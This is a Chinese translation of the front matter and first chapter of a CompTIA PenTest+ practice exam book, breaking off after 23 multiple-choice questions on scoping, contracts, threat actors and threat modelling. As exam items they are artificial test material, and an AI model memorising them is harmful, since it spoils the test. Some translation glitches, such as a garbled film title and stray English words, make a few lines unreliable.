# CompTIA PenTest+ 认证实践考试 (考试 PT0-001)


# 关于作者

`Jonathan Ammerman` 在过去的 11 年里一直致力于企业级信息系统工作。他最初作为美国陆军信号兵团的军官从事军事网络工作，随后转入一家世界 500 强企业的系统管理工作。从那里，他进入了高性能计算（HPC）管理领域。这些经验积累促使他进入了安全领域，目前他在 `nDepth Security`担任渗透测试员。Jonathan 拥有 `OSCP` 和 `PenTest+` 认证。

### 关于技术编辑

`Heather Linn` 在安全行业拥有 20 多年的经验，曾任过企业安全人员、渗透测试员以及猎捕小组（hunt team）成员。她曾贡献过包括 `Metasploit` 在内的开源框架，并为全球范围内教授的取证、渗透测试和信息安全课程材料做过贡献。

Heather 曾在多次安全会议上进行演讲，包括多次 `BSides` 会议、本地 `ISSA` 分会会议，以及旨在为信息安全领域的新学生提供现实预期的学生活动。




***

## 致谢

首先，感谢麦格罗生教育（McGraw-Hill Education）的 Lisa McClain 和 Claire Yee，在这项有时看起来像西西弗斯式的艰巨工作中提供的指导和建议。你们从第一天起就表现出的经验和耐心显而易见，对于你们近乎无尽的支持，我感激不尽。其他帮助这本书成现实的全体员工，也接受我诚微的谢意。

特别感谢我的技术编辑 Heather Linn，她在我产生任何念头之前就打灭了我的自满，并一直用我最喜欢的准则之一来告诫我：“语言至关重要。”她的耐心和博学多才让我深感自卑，这证明了一个事实：我们中没有一个人会 `stops` 成为学生。没有那些偶尔的“当头一击”，这本书就不可能诞生。衷心感谢。

衷心感谢我的项目编辑 Laura Stone，以及文字编辑 Bart Reed 和 Bill McManus，他们的热情和支持在汇编这部作品的最后阶段提供了宝贵的积极能量和专注。与你们大家合作真是一件非常快乐的事。

感谢 Mike Hartman：感谢你敞开大门。感谢 Chuck Bredestege：你让我进入了你的“瓷器店”，而且通过某种方式，我做出的东西比我弄坏的要多（我想是）。感谢你给予我尝试、失败和成功的自由。感谢 Dave Smith：冒着听起来像个在致谢辞中引用了两次卡缪的哲学系本科生的的风险，这段旅程中的一切都是荒诞的。诚挚的感谢，我的朋友。感谢 Ray Nutting，另一个赌徒：感谢你的专业指导，并从一开始就促使我写下这本书。

感谢家人：感谢我兄弟 Chris 定期检查我的精神状态。还有，`check`。Janice 和 Paul，感谢你们在需要时填补空缺。妈妈，感谢你从第一天起就支持我。爸爸，这里没有足够的空间写下所有的话，但谢谢你。最后，非常感谢我的妻子 Melinda 以及我们的孩子 Isobelle 和 Ellias。你们的爱、支持和耐心是这项工作的支柱。

***

## 引言

### 为什么要参加 CompTIA PenTest+？

也许你可能复习现有的证书并保持与时同步。也许你渴望在职业生涯上进行转型。也许你已经关注安全领域很久了，现在终于准备好大显身手了。也许你刚刚看了《矩阵矩阵客娘》，并在想三妮所使用的那个 `nmap` 到底是什么。无论情况如何，CompTIA 的 PenTest+ 都能带你到达你想去的地方。

信息安全是一个流动且不断演变的领域，总有新东西需要学习。然而，这可能是一把双刃剑。在尝试进入安全领域时，很难确定该从哪里开始，因为似乎可以为自己开辟出无尽的细分领域。对于那些决定专注于渗透测试或安全审计的人来说，PenTest+ 将证明你具备基础知识水平，你可以从这个水平继续专业化和成长。然而，在应对 PenTest+ 之前，还有几点需要注意。

### 全面披露：这不是起点

PenTest+ `not` 一个对初学者友好的考试。CompTIA 建议候选人拥有 Network+ 和 Security+ 证书（或等同知识），并具备四四年的信息安全或相关实战经验。简而言之，在开始这条道路之前，你应该了解网络基础知识，并具备一些基础安全技能。对自己诚实一点——如果你还没有准备好，就去杀掉那些龙吧，升级，`then` 再拿下它。请注意，Network+ 和 Security+ 并不是你必须具备的先决证书——事实上，PenTest+ 没有任何 `any` 先决条件——但 PenTest+ 旨在作为 CompTIA Security+ 之后的后续路径。CompTIA PenTest+ 与之前的其他 CompTIA 证书的不同之处在于，它旨在测试 `functional` 知识。了解事实和细节是有益且帮助的（对考试也是必要的），但考试还将测试候选人在实操、实践练习中的能力。仅仅知道锤子的作用是不够的；你还需要展示出挥舞锤子的能力。

### 明确你想要什么：这不是一个全能考试

CompTIA PenTest+ 明确专注于渗透测试和安全评估。其他证书（如 Security+）可能会涉及与这些领域相关的组件，但 PenTest+ 在其他领域仅仅浅尝辄的地方深入研究。它是一个更具进攻性的证书，测试一个人攻击和利用系统及网络漏洞的能力，而不是试图同时教授进攻和防御。这在很大程度上反映了现实世界中处理这些任务的方式：虽然安全领域紫色团队（即联合小组中攻击者和防御者的混合）正成为趋势，但目前的范式在很大程度上仍然是攻击者防御者是独立的实体。如果你对防御感兴趣，可以考虑查看 CompTIA CySA+，它可以被认为是 PenTest+ 的姐妹考试。它是 PenTest+ 狂暴之阳对应的调和之阴。

同时，不要误认为这句话是关于谁能从参加这次考试中获益的绝对真理。这个比喻很恰当——PenTest+ 中包含防御知识元素，就像 CySA+ 中包含进攻的核心概念。因此，攻击者参加 CySA+ 有价值，就像防御者参加 PenTest+ 有价值一样。

### 了解对 PenTest+ 考试的预期

好了，既然你已经准备好了所需的知识和心态——你对 CompTIA PenTest+ 有什么预期？CompTIA 解释道：

- 该证书将包含最多 85 道题。
- 证书将结合多选题与实际的、基于性能的问题。
- 你有 165 分钟来完成考试。
- 你至少需要 750 分（满分 900 分）通过考试。

这里有几点说明和建议：CompTIA 的官方信息说会有“最多 85 道”题。请带着你 `will` 会看到 85 道题的心态来学习——通过这样做，你是在为就可用时间而言的绝对最坏情况做准备。如果你看到的题目较少，意味着你考试时有更多时间；另一方面，漏掉的单道题也有分。请明智地利用时间。记住，165 分钟内完成 85 道题意味着平均每道题不到两分钟，但不要在考试中将此作为硬性规定：预计基于性能的问题会花费更长时间，而大多数多选题则会很快通过。

还有一点：此书涵盖了 CompTIA PenTest+ 的所有目标项目。为了做到这一点，编写了 300 道题。考试只有 85 道题，所以你可以安全地假设在考试时不会看到每个潜在主题。同时，请记住，在坐在考场之前，你无法知道自己会被测什么。这里的关键点应该是相应地做好准备；没有捷径可走。

下表代表了 CompTIA 指定的目标领域及其相对权重：



### 如何使用本书


本书采用模块化方法帮助你为 CompTIA PenTest+ 考试做准备，重点关注你将接受测试的若干关键原则和学习领域。这种章节布局与配套教材 `CompTIA PenTest+ Certification All-in-One Exam Guide (Exam PT0-001)` 一致，旨在简化备考者的学习过程。请结合 `All-In-One Exam Guide` 使用本书，以巩固你的知识。或者，你也可以将本书作为自身发展的准绳，使你能够将学习精力集中在识别出的薄弱知识领域上。

CompTIA PenTest+ 认证涵盖五个关键知识领域。领域 1（规划与范围确定）和领域 5（报告与通信）被分成了专门的章节（分别为 第 1 章 和 第 12 章）。中间的章节拆分方式既能够突出显示渗透测试共有的核心活动，又涵盖了 CompTIA PenTest+ 的其余三个领域：

- 领域 2：信息收集与漏洞识别
- 领域 3：攻击与利用
- 领域 4：渗透测试工具

这种方法使本书能够整体地测试核心知识领域，并解决工具使用与信息收集之间的关系、漏洞识别与攻击流程构建之间的关系等。通过这种方式，它努力还原真实世界中这些领域之间的相互作用，而不是将其拆解为枯燥的、元素的本质并剥夺它们的上下文背景。

### 使用目标地图（Objective Map）

编制此目标地图旨在帮助你将 CompTIA 的官方考试目标与书中的相关内容进行交叉引用。考试目标完全按照 CompTIA 呈现的方式列出了引用，并附带了章节和题号。

***


**注意** 一个问题可能涵盖多个目标。请务必阅读每个章节末尾对正确和错误答案的深度解释，以理解每个问题的完整背景。









### 在线内容

本书附带了完整的 TotalTester 可自定义模拟考试软件，其中包含 200 道多项选择练习题、一项预评估测试和 10 道基于性能的题目。有关访问和使用这些内容的详细信息，请参阅附录“关于在线内容”。

***

# 第 1 章

## 前参与活动（Pre-engagement Activities）

本章包含以下主题的问题：

- 项目参与规划的重要性
- 关键法律概念
- 正确确定项目范围的重要性
- 基于合规性评估的关键方面

***

作为一名渗透测试员，成功始于与客户协调制定的严密计划。这包括任务关键要素，例如用于评估的攻约规则（`ROE`）、客户与测试人员之间的通信升级路径，以及定义良好的工作范围。恰当的规划赋予了渗透测试员能力，使他们能够更好地集中精力，从而使他们在执行渗透测试过程中所进行的任何活动的时间投入产率最大化。简而言之，适当的规划和准备对于你在任何项目中的成功都至关重要。

渗透测试员面临的其他挑战还包括需要规避的各种法律障碍，包括保密协议（`NDAs`）以及在开始项目前获得书面授权。此外，出口控制限制、政府法规和公司政策可能会进一步增加项目的复杂性；例如，对包含患者受保护健康信息（`HIPAA` 术语中的 `PHI`；通常称为 `PII`，即个人身份信息）的医疗系统进行测试，需要遵守美国的 `HIPAA` 规定。

客户有时会提供允许进行测试活动的紧窄时间窗口，或者总的持续时间非常短，以至于完全评估一个环境看起来像是一项不可逾越的挑战。此外，客户在执行渗透测试期间可能会提出额外请求——例如增加一个需要测试的子网或要求进行代码审查。这些仅仅是为什么在敲下第一个按键之前，确定一个完整的项目范围至关重要的原因之一。因此，定义良好的范围允许渗透测试员为项目制定连贯的计划和时间表。

***

### 问题（QUESTIONS）

***

**1。** 一家公司被黑客攻击，几封让 CFO 感到尴尬且可能暗示其存在犯罪行为的邮件泄露给了媒体。事件响应确定，在泄露前的 24 小时内，只有三个用户账户访问了组织的邮件服务器。其中一个账户分配给一名在事故发生两周前解雇的员工。事件响应未发现对该系统的其他访问。哪种类型的威胁者应首先被认为是此次泄露的可能罪魁祸首？

**A.** 内部威胁
**B.** 高级持续威胁（`APT`）
**C.** 黑客行动分子（Hacktivist）
**D.** 脚本小子（Script kiddie）

**2。** 在微软发布的关于威胁建模指南中，哪一步由记录信息系统环境架构中所使用的技术，并发现它们在其中是如何实现的？

**A.** 评估威胁等级
**B.** 架构概览
**C.** 识别资产
**D.** 拆解应用程序

**3。** 在渗透测试项目的范围确定阶段，渗透测试员如何有效地获取开始测试所需的信息？

**A.** 等待客户告知
**B.** 询问之前的渗透测试提供者看了什么
**C.** 与业务领导层建立邮件链以记录通信
**D.** 向客户发送预参与调查问（也称为范围文档）让他们填写

**4。** 哪种合同文件是保护业务信息和知识产权的保密协议？

**A.** 主服务协议（`MSA`）
**B.** 工作说明书（`SOW`）
**C.** 保密协议（`NDA`）
**D.** 书面授权信

**5。** 对于在边界防御内部进行的渗透测试，提供有限访问意味着什么？

**A.** 客户人员在有限时间内可用。
**B.** 仅在预定义时间内访问目标系统或网络。
**C.** 渗透测试员仅获得目标系统的初始、基础连接。
**D.** 渗透测试员获得一个管理员账户。

**6。** 红队评估*通常*以与哪种类型威胁者的方式一致的方式进行？

**A.** 黑客行动分子
**B.** 内部威胁
**C.** 脚本小子
**D.** 高级持续威胁

**7。** 正如微软威胁建模程序中所述，计算总风险的公式如下：

```
风险 = 概率 * 损害潜力
```


在渗透测试期间，你发现了一个损害潜力相对较高（8/10）且发生概率高于高于平均水平（7/10）的漏洞。根据前面的公式，该漏洞的关联风险值是多少？

**A.** 15
**B.** 1
**C.** 56
**D.** 560

**[8].** 根据微软的威胁建模系统，该漏洞的最终风险优先级划分应该是什么？

**A.** 中级（Medium）
**B.** 低级（Low）
**C.** 高级（High）
**D.** 紧急（Urgent）

**[9].** 在微软的威胁建模指南中，哪一步涉及对组织的外部和内部威胁进行分类？

**A.** 评估威胁评分
**B.** 分解应用程序
**C.** 识别威胁
**D.** 识别资产

**[10].** `swagger` 文档的预期目的是什么？

**A.** 描述通过网络服务提供的功能
**B.** 提供 `API` 描述和测试用例
**C.** 提供模拟测试场景，允许对请求进行检查和调试，或可能发现未记录的 API
**D.** 详细阐述开发软件应用程序时使用的框架

**[11].** 如果渗透测试的一部分需要前往偏远分支机构或数据中心，这通常会出现在哪份合同文档中？

**A.** 保密协议（Nondisclosure agreement）
**B.** 工作说明书（Statement of work）
**C.** 书面授权信
**D.** 交互规则（Rules of engagement）

**[12].** 以下所有资产都可以作为渗透测试目标选择的候选，*除了*：

**A.** 技术
**B.** 由其他公司管理的员工银行账户
**C.** 人员
**D.** 设施

**[13].** 由渗透测试的目标受众识别，一个 `\__________` 是可能对组织产生重大影响的特定技术挑战（例如，关键任务主机或计划更换的敏感遗留设备）。

**A.** 技术限制（technical constraint）
**B.** 工作说明书（statement of work）
**C.** 交互范围（engagement scope）
**D.** 保密协议（nondisclosure agreement）

**[14].** 下列哪些属于即时评估（point-in-time assessments）类型？（选择两个）

**A.** 基于合规性的（Compliance-based）
**B.** 黑盒（Black box）
**C.** 灰盒（Gray box）
**D.** 基于目标的（Goals-based）

**[15].** 哪一类威胁行为者具有高水平技能，经常获得国家级资源的支持，并且通常以获取敏感信息（如工业或国家机）或财务收益为动机？

**A.** 内部威胁（Insider threat）
**B.** 黑客行动分子（Hacktivist）
**C.** 高级持续性威胁（Advanced persistent threat）
**D.** 脚本小子（Script kiddies）

**[16].** 一家为美国军制造硬件的国防承包商对新型航空系统的渗透测试发布了征求书。承包商表示，该项目的渗透测试人员必须持有安全许可。关于这项要求，以下最可能的解释是什么？

**A.** 出口控制限制（Export control restriction）
**B.** 公司政策（Corporate policy）
**C.** 政府限制（Government restriction）
**D.** 保密协议（Nondisclosure agreement）

**[17].** 下列哪些通常是主服务协议（MSA）中涵盖的内容？（选择两个）

**A.** 争议解决机制（Dispute resolution practices）
**B.** 工作地点（Location of work）
**C.** 验收标准（Acceptance criteria）
**D.** 赔偿条款（Indemnification clauses）

**[18].** 哪种类型的评估特征是比典型的交互周期更长？

**A.** 白盒（White box）
**B.** 基于合规性的（Compliance-based）
**C.** 红队（Red team）
**D.** 基于目标的（Goals-based）

**[19].** 在基于合规性的测试中，为什么测试人员只有对组织的有限访问权限会有问题？

**A.** 测试人员可能没有足够的时间发现所有漏洞。
**B.** 测试人员需要验证其遵守情况。
**C.** 测试人员需要足够的时间模拟高级持续性威胁。
**D.** 测试人员需要足够的访问权限。

**[20].** 哪种支持的功能是定义发送和接收消息的格式？

**A.** `WSDL`
**B.** `XSD`
**C.** 架构图
**D.** `SOAP`

**[21].** 哪种类型的威胁行为者通常没有技能，经常通过使用公开的漏洞来表现出来？

**A.** 高级持续性威胁（Advanced persistent threat）
**B.** 脚本小子（Script kiddies）
**C.** 内部威胁（Insider threat）
**D.** 黑客行动分子（Hacktivist）

**[22].** 以下所有人员都可以被视为渗透测试结果的利益相关者，*除了*哪个？

**A.** IT 部门
**B.** 竞争对手公司
**C.** 第三方媒体
**D.** 执行管理层

**[23].** 根据微软发布的程序，威胁建模的第一步是什么？

**A.** 识别资产
**B.** 识别威胁
**C.** 分解应用程序
**D.** 架构概览

*接下来的五个问题请参考以下场景：*

